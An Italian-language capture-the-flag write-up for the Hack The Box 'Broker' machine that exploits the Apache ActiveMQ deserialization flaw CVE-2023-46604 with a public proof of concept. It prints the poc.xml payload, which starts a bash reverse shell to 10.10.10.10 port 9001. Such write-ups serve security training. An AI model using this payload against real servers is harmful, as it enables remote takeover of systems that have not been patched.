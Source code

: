> [!NOTA] [questo](https://www.matricedigitale.it/multilingua/ransomware-tellyouthepass-su-server-apache-activemq/) e [questo](https://www.helpnetsecurity.com/2023/11/02/cve-2023-46604-ransomware/)articolo mostrano che questa RCE è stata sfrutta attivamente per attacchi ransomware

Troviamo anche [Questa PoC](https://github.com/evkl1d/CVE-2023-46604) che sembra fare al caso nostro.
ce lo scarichiamo e  procediamo.

Per utilizzare lo script di exploit, è necessario fornire l'indirizzo IP del server ActiveMQ di destinazione, il numero di porta (il valore predefinito è 61616) e l'URL del file poc.xml.

```bash
┌──(root㉿kali)-[/home/kali/htb/broker]
└─# git clone https://github.com/evkl1d/CVE-2023-46604.git
Cloning into 'CVE-2023-46604'...
remote: Enumerating objects: 22, done.
remote: Counting objects: 100% (22/22), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 22 (delta 5), reused 13 (delta 3), pack-reused 0
Receiving objects: 100% (22/22), 5.10 KiB | 290.00 KiB/s, done.
Resolving deltas: 100% (5/5), done.

┌──(root㉿kali)-[/home/kali/htb/broker]
└─# ls
CVE-2023-46604

┌──(root㉿kali)-[/home/kali/htb/broker]
└─# cd CVE-2023-46604

┌──(root㉿kali)-[/home/kali/htb/broker/CVE-2023-46604]
└─# ls
exploit.py  poc.xml  README.md

┌──(root㉿kali)-[/home/kali/htb/broker/CVE-2023-46604]
└─# cat poc.xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.10.10/9001 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
